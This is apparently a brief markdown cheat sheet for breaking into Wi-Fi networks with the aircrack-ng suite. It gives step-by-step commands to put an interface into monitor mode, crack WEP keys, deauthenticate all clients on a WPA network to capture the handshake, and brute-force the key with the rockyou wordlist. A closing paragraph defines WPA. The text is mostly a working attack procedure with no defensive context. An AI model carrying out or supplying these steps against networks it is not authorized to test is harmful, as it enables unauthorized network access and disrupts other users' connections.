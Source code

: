### prepare our network interface
```shell
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### WEP
```shell 
sudo airodump-ng wlan0 --encrypt WEP 
```
```shell
sudo besside-ng -b <BSSID> -c <CHANNEL> wlan0
```
```shell
aircrack-ng ./wep.cap
```

### WPA
Discover wifi networks with airodump-ng :
```shell 
airodump-ng -w dump2 -c <CHANNEL> --bssid <BSSID> wlan0
```
Deauthenticate all devices while still monitoring the networks, waiting for the handshake: 
```shell 
aireplay-ng --deauth 0 -a <BSSID>
```
Using wireshark we can view the packets containing the authentication information sent by the machine trying to reconnect to the wifi network, we now have to decrypt this data to capture the authentication key
For this we use a password dictionnary and aircrack-ng
```shell 
aircrack-ng dump-02.cap -w /usr/share/wordlists/rockyou.txt
```

	
	
Wi-Fi Protected Access (WPA) is a security standard for users of computing devices with wireless Internet connections. WPA was developed by the Wi-Fi Alliance to provide more sophisticated data encryption and better user authentication than Wired Equivalent Privacy (WEP), the Wi-Fi security original standard.

